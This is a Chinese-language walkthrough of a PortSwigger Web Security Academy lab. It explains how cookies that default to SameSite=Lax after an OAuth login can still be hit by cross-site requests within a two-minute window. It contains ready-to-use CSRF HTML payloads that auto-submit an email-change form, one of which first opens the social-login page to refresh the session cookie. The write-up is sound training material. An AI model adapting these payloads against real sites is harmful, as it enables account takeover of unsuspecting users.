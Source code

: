 该题中的登录使用了跨站OAuth认证，注意到在OAuth认证信息流的最后，后端在设置cookie的时候没有做任何对跨域行为的限制，所以前端会默认将samesite设置为lax.

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308132343453.png)

关于这个特性，我们可以使用简单的CSRF payload进行认证：

```html
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

当你的登陆时长大于两分钟时，由于samesite已被重新设定为lax，普通的csrf攻击显然会失效；但如果登陆时长在两分钟以内，由于之前的特性，攻击就会成功。

注意到在该服务器中，只要进行登录就会申请一个完整的OAuth认证流，而如果已经有登陆状态的session cookie，则不会出现任何交互。每一次完成OAuth认证之后，都会产生一个新的session cookie用于认证。那么需要做的就是修改payload使得激活后先通过强制访问登陆界面刷新session token,再提交修改邮箱的请求。由于题目已经提示网站屏蔽了弹窗，所以需要用脚本形式强制刷新页面：

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
//两分钟内可用
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```
